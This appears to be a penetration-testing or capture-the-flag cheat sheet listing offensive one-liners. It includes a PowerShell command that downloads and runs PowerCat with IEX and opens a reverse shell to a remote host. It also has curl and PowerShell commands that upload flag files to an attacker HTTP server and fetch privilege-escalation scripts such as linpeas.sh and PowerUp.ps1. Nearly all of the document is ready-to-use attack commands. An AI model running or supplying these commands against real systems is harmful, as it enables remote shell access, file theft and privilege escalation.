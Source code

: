 # Cybersecurity Tools and Files
# **PowerCat**
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
https://raw.githubusercontent.com/voidascent/sec/main/httpserver.py
```
Usage
```bash
python3 httpserver.py # Default Port 8000
python3 httpserver.py -p 8888 # Running on Port to 8888
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@**/home/ubuntu/Desktop/flag.txt**' **http://192.168.10.10:8000/**
```
Curl Download
```
curl -O **http://192.168.10.10:8000/**download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "**C:\Users\Administrator\Desktop\flag.txt**"; $Url = "**http://192.168.10.10:8000/**"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "**http://192.168.10.10:8000/download/PowerUp.ps1**" -OutFile "**C:\Users\Administrator\Desktop\PowerUp.ps1**"
```

